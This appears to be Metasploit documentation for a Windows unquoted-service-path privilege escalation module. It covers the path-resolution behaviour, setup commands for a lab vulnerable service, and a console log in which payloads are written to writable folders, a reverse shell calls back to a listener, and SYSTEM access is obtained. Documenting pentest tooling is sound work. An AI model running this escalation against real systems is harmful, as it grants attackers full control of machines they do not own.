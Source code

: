 ## Vulnerable Application

Commonly known as Trusted Service Path, or Unquoted Service path, this exploits a behavior of windows service.
When a service calls an executable, a full path is given.  If the full path contains a space,
Windows will attempt to execute a file up to the space, with `.exe` appended.
If the executable isn't found, it keeps going until the full path or the next space (and repeat).

@sumitvgithub had an excellent write-up on this
[here](https://medium.com/@SumitVerma101/windows-privilege-escalation-part-1-unquoted-service-path-c7a011a8d8ae)

As is documented in that write-up, if the executable is C:\Program Files\A Subfolder\B Subfolder\C Subfolder\SomeExecutable.exe

Windows will attempt to run the following, in order.

1.  C:\Program.exe
2.  C:\Program Files\A.exe
3.  C:\Program Files\A Subfolder\B.exe
4.  C:\Program Files\A Subfolder\B Subfolder\C.exe
5.  C:\Program Files\A Subfolder\B Subfolder\C Subfolder\SomeExecutable.exe

To exploit this, we simply need to go in reverse order to see if we're able to write a payload to those locations.
In Win7+ the deeper folders are more likely to succeed based on default Windows permissions for users.

Then, a service restart is required.  Often a user won't be able to do this,
so the payload is left on disk as a reboot or service restart will trigger the payload to launch.

The service will fail to start as long as the payload remains on disk.  Manual cleanup of the payload
is required.

### Creating a Vulnerable Service

This is sourced from @sumitvgithub's write-up
[here](https://medium.com/@SumitVerma101/windows-privilege-escalation-part-1-unquoted-service-path-c7a011a8d8ae)

With an administrator command prompt, execute the following:

```
sc create "Some Vulnerable Service" binpath= "C:\Program Files\A Subfolder\B Subfolder\C Sub folder\SomeExecutable.exe" Displayname= "Vuln Service DP" start= auto
mkdir "C:\Program Files\A Subfolder\B Subfolder\C Sub folder"
icacls "C:\Program Files\A Subfolder" /grant "BUILTIN\Users":W
```

This creates a vulnerable service, with `A Subfolder` being vulnerable to user writes.

## Verification Steps

1. Start msfconsole
2. Get a user shell
3. Do: `use exploits/windows/local/unquoted_service_path`
4. Do: `set session #`
5. Do: `run`
6. You should get an elevated shell.

## Options

## Scenarios

### Windows 10 21H2

```
msf6 exploit(windows/local/unquoted_service_path) > set session 1
session => 1
msf6 exploit(windows/local/unquoted_service_path) > set verbose true
verbose => true
msf6 exploit(windows/local/unquoted_service_path) > set lhost 192.168.159.128
lhost => 1.1.1.1
msf6 exploit(windows/local/unquoted_service_path) > set lport 9090
lport => 9090
msf6 exploit(windows/local/unquoted_service_path) > exploit

[*] Started reverse TCP handler on 192.168.159.128:9090 
[*] Finding a vulnerable service...
[-] Request Error extapi_service_query: Operation failed: Access is denied. Falling back to registry technique
[-] Request Error extapi_service_query: Operation failed: Access is denied. Falling back to registry technique
[-] Request Error extapi_service_query: Operation failed: Access is denied. Falling back to registry technique
[-] Request Error extapi_service_query: Operation failed: Access is denied. Falling back to registry technique
[-] Request Error extapi_service_query: Operation failed: Access is denied. Falling back to registry technique
[-] Request Error extapi_service_query: Operation failed: Access is denied. Falling back to registry technique
[-] Request Error extapi_service_query: Operation failed: Access is denied. Falling back to registry technique
[-] Request Error extapi_service_query: Operation failed: Access is denied. Falling back to registry technique
[-] Request Error extapi_service_query: Operation failed: Access is denied. Falling back to registry technique
[-] Request Error extapi_service_query: Operation failed: Access is denied. Falling back to registry technique
[-] Request Error extapi_service_query: Operation failed: Access is denied. Falling back to registry technique
[-] Request Error extapi_service_query: Operation failed: Access is denied. Falling back to registry technique
[-] Request Error extapi_service_query: Operation failed: Access is denied. Falling back to registry technique
[-] Request Error extapi_service_query: Operation failed: Access is denied. Falling back to registry technique
[-] Request Error extapi_service_query: Operation failed: Access is denied. Falling back to registry technique
[+] Found potentially vulnerable service: Vuln Service 1 - C:\Program Files\A Subfolder\B Subfolder\C Sub folder\SomeExecutable.exe (LocalSystem)
[*]   Enumerating vulnerable paths
[-]     C:\Program Files\A Subfolder\B Subfolder\ is not writable
[+]     C:\Program Files\A Subfolder\ is writable
[*]       Placing C:\Program Files\A Subfolder\B.exe for Vuln Service 1
[*]       Attempting to write 15872 bytes to C:\Program Files\A Subfolder\B.exe...
[+]       Successfully wrote payload
[*] [Vuln Service 1] Restarting service
[-] [Vuln Service 1] Restarting service failed: Could not open service. OpenServiceA error: FormatMessage failed to retrieve the error.
[-]       Unable to restart service. System reboot or an admin restarting the service is required. Payload left on disk!!!
[-]     C:\Program Files\ is not writable
[-]     C:\ is not writable
[+] Found potentially vulnerable service: Vuln Service 2 - C:\Program Files\D Subfolder\E Subfolder\F Sub folder\SomeExecutable.exe (LocalSystem)
[*]   Enumerating vulnerable paths
[-]     C:\Program Files\D Subfolder\E Subfolder\ is not writable
[+]     C:\Program Files\D Subfolder\ is writable
[*]       Placing C:\Program Files\D Subfolder\E.exe for Vuln Service 2
[*]       Attempting to write 15872 bytes to C:\Program Files\D Subfolder\E.exe...
[+]       Successfully wrote payload
[*] [Vuln Service 2] Restarting service
[*] Sending stage (175686 bytes) to 192.168.159.87
[+] [Vuln Service 2] Service started
[+] Deleted C:\Program Files\A Subfolder\B.exe
[+] Deleted C:\Program Files\D Subfolder\E.exe
[*] Meterpreter session 12 opened (192.168.159.128:9090 -> 192.168.159.87:57944) at 2023-01-05 09:46:38 -0500

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : DESKTOP-81CEH16
OS              : Windows 10 (10.0 Build 19044).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 3
Meterpreter     : x86/windows
meterpreter > 
```
